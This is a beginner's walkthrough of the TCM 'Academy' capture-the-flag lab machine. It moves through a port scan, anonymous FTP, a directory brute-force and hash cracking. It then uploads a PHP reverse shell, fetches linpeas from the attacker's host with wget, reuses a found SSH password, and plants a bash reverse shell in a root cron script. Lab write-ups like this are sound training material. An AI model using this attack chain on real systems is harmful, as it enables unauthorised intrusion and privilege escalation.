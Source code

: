 # ACADEMY

It was gottem as I was studying the practical ethical hacking course on TCM ACADEMY. This writeup will be a walkthrough on it. I ran it on a virtual machine to get the IP of the machie.

Advice to beginners just like me, I won't advise you follow this walkthrough back to back as it will not really help you progress well in your journey. You can just come here to check when you get stuck and have tried all possible things you know before.

First we load our machine and get our IP address. For that we use the command <ip a> and we copy our IP address. That will be the target IP. 

![image](https://github.com/Bangis041/academy-/assets/74382096/9c438e88-5791-4089-83fe-921446e9cc60)

We start by scanning for ports to see which ports are opened and vulnerable. For this, I did a nmap scan with SYNTAX: ```nmap -A -p- IP```

![image](https://github.com/Bangis041/academy-/assets/74382096/3d764b7f-820c-41d3-b1d1-34811b658b62)

From the scan above, we can see we had a number of opened ports. Port 21 looked interesting since it's the first and has a content we would like to view and also, anonymous FTP login allowed.

For us to check that out, we use <ftp IP> and then we are able to list what files are there.

![image](https://github.com/Bangis041/academy-/assets/74382096/d07f7c83-9256-4046-a6b6-6cf56a21cb1e)

Here we downloaded the note.txt file and saw some intersting information that might be helpful eventually.

After that, we check out the next port that might matter to us. SSH is not it so we move down to port 80 which is a webserver.

After loading the website, there was no much information. we only knew what technology was behind it.

![image](https://github.com/Bangis041/academy-/assets/74382096/53b38ac7-4519-4202-90c5-ca4b81d25de3)

Here we proceed to using a directory buster. I will be using gobuster in this case. SYNTAX: <gobuster dir -u http://IP -w wordlist_file/path>.

![image](https://github.com/Bangis041/academy-/assets/74382096/bdcf9185-6b31-4618-b9a2-1d6e827a3332)

Afer scanning we were able to get two directories. One interests me more and that is /academy. Why? I saw something that has to do with student in the note.txt file we saw from FTP. Now we search for http://IP/academy. After loading, we get to see a login page that requires us to use a REG NO and password. I did that using the information from the note.txt and i got an error

![image](https://github.com/Bangis041/academy-/assets/74382096/3282bcab-4f23-4414-895c-ded129a73056)

so i looked at the password again and realized it was not a password but a hash. Most students use weak passwords😂. I simply used https://crackstation.net to crack the password and it was "student" so i logged in and said to myself "I'm IN !!!" hehe.

![image](https://github.com/Bangis041/academy-/assets/74382096/64a793e0-cdc9-4e1b-8199-4617a0b93152)

After getting in, the only interesting thing here was that there was a place to upload images. Good news is that not only images an be uploaded there, .php files could also be uploaded. I used that to my advantage to get a reverse shell. I simply searched on google fpr php reverse shell. I copied the code into a file, activated a listener and uploaded the file and I WAS IN ONCE AGAIN😂. It was almost a dead end so i used an automation tool i learned about on https://tryhackme.com/r/room/linprivesc. Just search 'linpeas' on google. I found the script, 

![image](https://github.com/Bangis041/academy-/assets/74382096/2437bec1-dff5-49ae-9557-dd9d001422cb)

i copied and pasted in a .sh file i named linpeas. Now i have to transfer the file to the shell by hosting a webserver ad using wget. I used <wget http://MY_IP/file>

![image](https://github.com/Bangis041/academy-/assets/74382096/040247fa-141e-4d1f-ab19-828aaee7d1f8). 

Now is time to change the permission to make it executable and then run!!!. 

![image](https://github.com/Bangis041/academy-/assets/74382096/269bb845-d796-4154-81b7-ddd10c3906ee)

We were given what to look out for also...made work easier. While scrolling through, I was able to get this...* * * * * /home/grimmie/backup.sh and also this 👇

![image](https://github.com/Bangis041/academy-/assets/74382096/a4edae2d-e509-426d-990c-a40d80c03c68) and also a password that kept repeating itself in multiple instances. I think now is time i use port 22 which is SSH since we have confirmed that Grimmie is a user and we have a possible password. SYNTAX for SSH: <ssh user@IP> and guess what again guys...I'm in🥱. 

![image](https://github.com/Bangis041/academy-/assets/74382096/481ae434-82a8-40db-bdd9-f84eac966f9d)

Now it's looking like it's a dead end after trying sudo -l. I checked the content of backup.sh and realised it's supposed to run at some point. Crontabs did not work so i used ps aux to list processes and we can see it is running as root user. Maybe we are correct.

![image](https://github.com/Bangis041/academy-/assets/74382096/94de302c-2c28-410a-b51c-a7f04ad8f0ee). 

From here, we head over to google.com as it is out best friend to ask it asbout "bash reverse shell one liner" and we see a link on pentestmonkey. 

![image](https://github.com/Bangis041/academy-/assets/74382096/319e4683-a49a-43a1-82a7-01a53a3994f6)

We get a command to use to get a shell...Let's try it and see what comes.

![image](https://github.com/Bangis041/academy-/assets/74382096/17267a78-6af2-4561-85c6-37bd8fb39fd1).

For this to work, we have to set up a listener on our machine and specify the port we are listening on. For me it is 5678.

![image](https://github.com/Bangis041/academy-/assets/74382096/198043da-f221-4a9a-b9eb-19b27c9805e3).

We then wait for it to run, I waited for about 28seconds and I AM IN!!!!!

![image](https://github.com/Bangis041/academy-/assets/74382096/5203fc05-b3bb-44bf-8590-abcfcb7113e3)

Just find the flag and at it out. 

![image](https://github.com/Bangis041/academy-/assets/74382096/b87492b2-0a0e-47d5-b436-275268df8453)

There my friends was how I was able to pwn the ACADEMY machine.
